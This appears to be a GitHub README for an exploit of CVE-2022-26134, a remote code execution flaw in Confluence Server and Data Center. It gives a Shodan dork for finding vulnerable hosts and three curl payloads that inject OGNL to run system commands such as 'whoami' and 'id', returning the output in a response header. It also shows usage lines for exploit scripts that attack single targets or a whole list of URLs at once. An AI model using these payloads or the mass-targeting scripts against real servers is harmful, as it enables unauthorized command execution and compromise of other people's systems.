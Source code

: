 # CVE-2022-26134
Confluence Server and Data Center RCE
- Shodan dork
```
http.favicon.hash:-305179312
```

- Curl PoC

```
curl -v http://target_IP:port/%24%7BClass.forName%28%22com.opensymphony.webwork.ServletActionContext%22%29.getMethod%28%22getResponse%22%2Cnull%29.invoke%28null%2Cnull%29.setHeader%28%22X-Cmd-Response%22%2CClass.forName%28%22javax.script.ScriptEngineManager%22%29.newInstance%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20d%3D%27%27%3Bvar%20i%20%3D%20java.lang.Runtime.getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%3B%20while%28i.available%28%29%29d%2B%3DString.fromCharCode%28i.read%28%29%29%3Bd%22%29%29%7D/
```
or
```
curl -v http://target_IP:port/${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Cmd-Response",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("var d='';var i = java.lang.Runtime.getRuntime().exec('whoami').getInputStream(); while(i.available())d+=String.fromCharCode(i.read());d"))}/
```
or
```
curl -v http://target_IP:port/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
 
- Usage

Exploit single target
```
python3 exploit.py https://target.com CMD
```
```
python3 exploit2.py -u http://xxxxx.com -c id
```
Exploit multi-targets
```
python3 exploit2.py -f urls.txt -c id
```
<!--
```
 python3 exploit.py https://target.com CMD
```
-->
